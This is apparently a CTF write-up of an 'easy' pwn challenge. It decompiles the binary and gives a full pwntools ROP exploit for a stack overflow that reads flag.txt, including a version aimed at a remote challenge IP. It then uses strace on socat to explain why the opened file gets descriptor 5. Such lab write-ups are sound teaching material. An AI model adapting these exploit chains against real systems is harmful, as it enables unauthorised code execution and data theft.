

+++
title = 'Tracing file descriptors: A battle against poor writeups'
date = 2024-10-05T00:09:08+05:30
tags = ["ctf", "linux", "pwn", "writeup"]
+++

I was going through an easy pwn challenge—easy according to the platform, not my personal ranking. After successfully pwning the binary locally, I ran the same exploit against the remote challenge service and it completely fell apart. I checked the writeup hoping for clarity, but the explanation they gave didn’t really scratch the itch or fully explain why things behaved differently.



There was no explanation regarding why the value of file-descriptor was to be `5`. Thus I went on a quest to trace for it.

> PS: Please bear with me while we fight togther to tally all those numbers :)  (*I tried my best to redact challenge name*)

## Context information

We are provided with challenge ELF binary named `challengeBinary`, and a Dockerfile to create docker container with binary and fake flag.

## Executable Mitigation Information

```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

## Source code analysis (Decompilation)

- **main()**
    ```c
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
        char s1[8]; // [rsp+0h] [rbp-40h] BYREF
        __int64 v5; // [rsp+8h] [rbp-38h]
        int v6; // [rsp+10h] [rbp-30h]
        __int64 buf[2]; // [rsp+20h] [rbp-20h] BYREF
        int fd; // [rsp+34h] [rbp-Ch]
        unsigned __int64 i; // [rsp+38h] [rbp-8h]

        banner(argc, argv, envp);
        buf[0] = 0LL;
        buf[1] = 0LL;
        fd = open("/dev/urandom", 0);
        read(fd, buf, 8uLL);
        printf("\n[Strange man in mask screams some nonsense]: %s\n\n", (const char *)buf);
        close(fd);
        *(_QWORD *)s1 = 0LL;
        v5 = 0LL;
        v6 = 0;
        printf("[Strange man in mask]: In order to proceed, tell us the secret phrase: ");
        __isoc99_scanf("%16s", s1);
        for ( i = 0LL; i <= 0xE; ++i )
        {
            if ( s1[i] == 10 )
            {
            s1[i] = 0;
            break;
            }
        }
        if ( !strncmp(s1, "s34s0nf1n4l3b00", 0xFuLL) )
            challenge_function();
        else
            printf("%s\n[Strange man in mask]: Sorry, you are not allowed to enter here!\n\n", "\x1B[1;31m");
        return 0;
    }
    ```
    - The program opens up `/dev/random` at provides the user with 8 bytes of randomness
    - It asks for a secret phrase (compared with `s34s0nf1n4l3b00`), if the phrase matches
        - It calls **challenge_function()**

- **challenge_function()**
    ```c
    ssize_t challenge_function()
    {
        char buf[64]; // [rsp+0h] [rbp-40h] BYREF

        printf("\n[Strange man in mask]: Season finale is here! Take this souvenir with you for good luck: [%p]", buf);
        printf("\n\n[Strange man in mask]: Now, tell us a wish for next year: ");
        fflush(stdin);
        fflush(_bss_start);
        read(0, buf, 0x1000uLL);
        return write(1, "\n[Strange man in mask]: That's a nice wish! Let the Spooktober Spirit be with you!\n\n", 0x54uLL);
    }
    ```
    - It discloses a stack address (of input buffer).
    - It reads 4096 bytes into a 64 byte array.

## Vulnerability

As `NX` is enabled, but it is a No PIE binary, we can possibly ROP. *We also have stack address leak to store data* in our ropchain.

## Exploitation

### Exploit Development

We do not have a `pop rdi ; ret` gadget, but the moment **challenge_function()** returns, RDX stores 0x54 which would suffice for us, if flag is larger in size we would have to read it in 84 byte chunks, *not an issue :)*.

The call to **open()** sets RDX to 0, so we return back to **challenge_function()** and send a second ropchain to read the flag from opened file.

```py
import pwn

pwn.context.terminal = ['tmux', 'splitw', '-h']

exe = "./challengeBinary"
elf = pwn.context.binary = pwn.ELF(exe)

proc = pwn.process(exe)

proc.sendline(b"s34s0nf1n4l3b00")   # secret phrase

proc.readuntil(b"[Strange man in mask]: Season finale is here! Take this souvenir with you for good luck: [")
buffer_address = int(proc.readuntil(b']').decode()[:-1], 16)

pwn.log.info(f"Buffer's stack address provided: {hex(buffer_address)}")

# GADGETS =====================================================================

pop_rdi = 0x00000000004011f2
pop_rsi = 0x00000000004011f4

open_plt = 0x4010e0
read_plt = 0x401090
write_plt = 0x401050

padding = 64 + 8   # buffer size + RBP size

ropchain_stage1 = pwn.flat({
    0: [
        b"flag.txt\0",
        b'a' * (padding - len(b"flag.txt\0")),
        pwn.p64(pop_rdi),
        pwn.p64(buffer_address),
        pwn.p64(pop_rsi),
        pwn.p64(0),
        pwn.p64(open_plt),      # open("flag.txt", O_RDONLY), file descriptor returned for "flag.txt" would be 3 if program closed all the files it had opened before this call
        pwn.p64(elf.symbols["finale"])
    ]
})  # call to open() sets RDX to 0


proc.sendline(ropchain_stage1)
proc.readrepeat(1)

ropchain_stage2 = pwn.flat({
    padding: [
        pwn.p64(pop_rdi),
        pwn.p64(3),
        pwn.p64(pop_rsi),
        pwn.p64(buffer_address),
        pwn.p64(read_plt),      # read(3, buffer, 84), rdx was set to 84 already and we lacked any gadget to modify it

        pwn.p64(pop_rdi),
        pwn.p64(1),
        pwn.p64(pop_rsi),
        pwn.p64(buffer_address),
        pwn.p64(write_plt),     # write(stdout, buffer, 84)
    ]
})

proc.sendline(ropchain_stage2)

proc.readuntil(b"That's a nice wish! Let the Spooktober Spirit be with you!\n\n");
pwn.log.info(f"FLAG: {proc.readline().decode()}"
```

The script worked locally, but failed on remote instance.

### Troubleshooting

I made slight change to the Dockerfile to install `strace` and use it to trace my calls

```Dockerfile
FROM ubuntu:20.04
ENV DEBIAN_FRONTEND noninteractive

RUN apt-get update --fix-missing && apt-get -y upgrade
RUN apt-get install -y socat strace

RUN useradd -m ctf

COPY challenge/* /home/ctf/

RUN chown -R ctf:ctf /home/ctf/

WORKDIR /home/ctf
USER ctf

EXPOSE 9001/tcp

ENTRYPOINT ["strace", "-f", "socat", "TCP-LISTEN:9001,fork", "EXEC:'./challengeBinary'"]
```

When I ran my exploit against the docker container, I observed that contrary to my assumption of fd being `3`, **when flag.txt was opened it was assigned `5` fd number**.

```
~$ docker run -it -p 9001:9001 --rm --name=challengeBinary challenge | grep open

openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libwrap.so.0", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libutil.so.1", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libssl.so.1.1", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libcrypto.so.1.1", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libnsl.so.1", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libpthread.so.0", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libdl.so.2", O_RDONLY|O_CLOEXEC) = 3
[pid    11] openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 5
[pid    11] openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 5
[pid    11] openat(AT_FDCWD, "/dev/urandom", O_RDONLY <unfinished ...>
[pid    11] <... openat resumed>)       = 5
[pid    11] openat(AT_FDCWD, "flag.txt", O_RDONLY <unfinished ...>
[pid    11] <... openat resumed>)       = 5
```

Updating the exploit script, it worked for remote instance

### Final exploit script

```py
import pwn

pwn.context.terminal = ['tmux', 'splitw', '-h']

exe = "./challengeBinary"
elf = pwn.context.binary = pwn.ELF(exe)

proc = pwn.remote("83.136.251.168", 39139)

proc.sendline(b"s34s0nf1n4l3b00")   # secret phrase

proc.readuntil(b"[Strange man in mask]: Season finale is here! Take this souvenir with you for good luck: [")
buffer_address = int(proc.readuntil(b']').decode()[:-1], 16)

pwn.log.info(f"Buffer's stack address provided: {hex(buffer_address)}")

# GADGETS =====================================================================

pop_rdi = 0x00000000004011f2
pop_rsi = 0x00000000004011f4

open_plt = 0x4010e0
read_plt = 0x401090
write_plt = 0x401050

padding = 64 + 8   # buffer size + RBP size

ropchain_stage1 = pwn.flat({
    0: [
        b"flag.txt\0",
        b'a' * (padding - len(b"flag.txt\0")),
        pwn.p64(pop_rdi),
        pwn.p64(buffer_address),
        pwn.p64(pop_rsi),
        pwn.p64(0),
        pwn.p64(open_plt),      # open("flag.txt", O_RDONLY), file descriptor returned for "flag.txt" 5 (found from troubleshooting)
        pwn.p64(elf.symbols["finale"])
    ]
})  # call to open() sets RDX to 0

with open("exploit", "wb+") as f:
    f.write(b"s34s0nf1n4l3b00\n")
    f.write(ropchain_stage1)

proc.sendline(ropchain_stage1)
proc.readrepeat(1)

ropchain_stage2 = pwn.flat({
    padding: [
        pwn.p64(pop_rdi),
        pwn.p64(5),
        pwn.p64(pop_rsi),
        pwn.p64(buffer_address),
        pwn.p64(read_plt),      # read(5, buffer, 84), rdx was set to 84 already and we lacked any gadget to modify it

        pwn.p64(pop_rdi),
        pwn.p64(1),
        pwn.p64(pop_rsi),
        pwn.p64(buffer_address),
        pwn.p64(write_plt),     # write(stdout, buffer, 84)
    ]
})

proc.sendline(ropchain_stage2)

proc.readuntil(b"That's a nice wish! Let the Spooktober Spirit be with you!\n\n");
pwn.log.info(f"FLAG: {proc.readline().decode()}")
```

### Digging deeper

> Why did **open()** return `5`?

Upon reading through strace logs, I found that socat registered **3**, **4** for socketpair (*socketpair are 2 file descriptors used for inter-process communication, they are bi-directional in nature. Usually before forking a process creates a pair and then parent and child use one fd from the pair for read/write while close the other*), while **5** was used for socket connection, and the newly created conenction was assigned **6**.

```
socketpair(AF_UNIX, SOCK_DGRAM, 0, [3, 4]) = 0
...
socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) = 5
bind(5, {sa_family=AF_INET, sin_port=htons(9001), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
getsockname(5, {sa_family=AF_INET, sin_port=htons(9001), sin_addr=inet_addr("0.0.0.0")}, [16]) = 0
listen(5, 5) 
...
accept(5, {sa_family=AF_INET, sin_port=htons(42340), sin_addr=inet_addr("172.17.0.1")}, [16]) = 6
```

Once I run my exploit, 2 new processes are created PID `9`, `10`

**PID 9** closed the socket connection and was out of the picture.

```
[pid     9] close(6)                    = 0
```

Meanwhile, **PID 10** (returned by the original **clone()** call), closed **3**, **4** and re-registered the socketpair. It further registered a new socket pair **5**, **7** after closing the socket **5**. But this one kept fd **6** pointing to current connection. Next, it **clone()**s again to create **PID 11**. Finally it closes **7**, thus it would be using **5** for communication

```
clone(child_stack=NULL, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0x7f06e36fda10) = 10

[pid    10] close(4 <unfinished ...>
[pid    10] <... close resumed>)        = 0
[pid    10] close(3)                    = 0
[pid    10] socketpair(AF_UNIX, SOCK_DGRAM, 0, [3, 4]) = 0
...
[pid    10] close(5)                    = 0
[pid    10] socketpair(AF_UNIX, SOCK_STREAM, 0, [5, 7]) = 0
...
[pid    10] clone(child_stack=NULL, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLDstrace: Process 11 attached
 <unfinished ...>
...
[pid    10] close(7)
```

And finally, **PID 11** closed **3**, **4**, **5** (socketpairs created by **PID 10**). Re-creates two socketpairs 3-4. Duplicated **7** as stdin and stdout and closed **7**. Finally **PID 11** loads **finale** binary into memory.

```
[pid    11] close(4 <unfinished ...>
[pid    11] <... close resumed>)        = 0
[pid    11] close(3 <unfinished ...>
[pid    11] <... close resumed>)        = 0
...
[pid    11] socketpair(AF_UNIX, SOCK_DGRAM, 0 <unfinished ...>
[pid    11] <... socketpair resumed>, [3, 4]) = 0
...
[pid    11] close(5 <unfinished ...>
[pid    11] <... close resumed>)        = 0
...
[pid    11] dup2(7, 0 <unfinished ...>
[pid    11] <... dup2 resumed>)         = 0
[pid    11] dup2(7, 1 <unfinished ...>
[pid    11] <... dup2 resumed>)         = 1
[pid    11] close(7)                    = 0
[pid    11] execve("./challengeBinary", ["./challengeBinary"], 0x5603cdb74e40 /* 12 vars */ <unfinished ...>
```

When **finale** was loaded, it had following file descriptors
- 0 - pointing to socketpair to communicate with **PID 10**
- 1 - pointing to socketpair to communicate with **PID 10**
- 2 - stderr
- 3 - pointing to socketpair it (**PID 11**) created
- 4 - pointing to socketpair it (**PID 11**) created
- 5 - FREE

Thus, 5 was allocated to all subsequent **open()**s
